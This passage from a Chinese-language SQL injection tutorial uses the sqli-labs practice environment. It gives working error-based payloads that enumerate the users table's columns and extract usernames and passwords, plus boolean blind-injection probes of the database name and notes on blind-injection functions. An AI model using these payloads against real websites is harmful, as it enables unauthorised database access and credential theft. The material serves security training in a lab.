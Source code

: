 使用以下payload获取users表的全部字段名

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')))--+
```

显示具体数据

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select concat_ws(',',id,username,password) from security.users limit 0,1)))--+
```

## SQL盲注

### 盲注常用函数

![image-20231110103535478](https://s2.loli.net/2023/11/10/NCBcWZYF7TkAvU8.png)

- if()

​	语法格式：if(expr1,expr2,expr3)：expr1为true则返回exprz,expr1为false则返回expr3.
 	注：仅MySQL支持。

- left()

​	语法格式：left(str.length)，如果str或length参数为NULL，则返回NULL值。
​	str：要提取子串的字符串。
​	length：正整数，指定将从左边返回的字符数。length 0或为负，则LEFT返回一个空字符串，length大于str	字符串的长度，则leftQ返回整个str字符串。

- length()

- substr(),substring()

  substr(str,pos,len),substring(str,pos,len)

  指定位置开始截取

- ascii(),ord():返回最左端的ascii值

- cast(),convert()

- sleep()

- benchmark(count,expr):让expr执行count次

### 布尔盲注

**实验**

盲猜网站当前所在数据库的库名长度，例如执行如下payload：

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and length(database())=7--+
```

盲猜网站当前所在数据库的库名字符串,逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr(database(),1,1)='s'--+
```
